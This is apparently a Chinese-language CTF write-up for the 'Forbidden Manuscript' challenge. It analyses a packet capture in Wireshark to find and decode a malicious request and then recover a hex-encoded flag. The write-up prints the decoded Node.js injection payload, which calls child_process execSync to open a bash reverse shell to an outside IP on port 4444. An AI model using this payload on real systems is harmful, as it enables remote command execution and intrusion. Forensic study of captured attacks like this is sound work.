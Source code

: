 # Forbidden Manuscript
## Solution
題目給的是封包 log，粗略看一下可以看到第 103 個封包的 request 參數最奇怪，如下圖。
![](forbidden_manuscript_pcapng.png)
對參數做 Url decode，發現是一個 reverse shell，使用 port 4444 接收資料
```
exploit() {} && ((()=>{ global.process.mainModule.require("child_process").execSync("bash -c 'bash -i >& /dev/tcp/192.168.56.104/4444 0>&1'"); })()) && function pwned
```
再看到 log 裡後面的封包都是跟 4444 有關的，使用 WireShark 的 "Follow TCP Stream" 觀看傳輸的資料，可以看到攻擊者正在 cat flag
![](forbidden_manuscript_pcapng2.png)
將 flag 從 hex 轉回文字就可以得到 flag

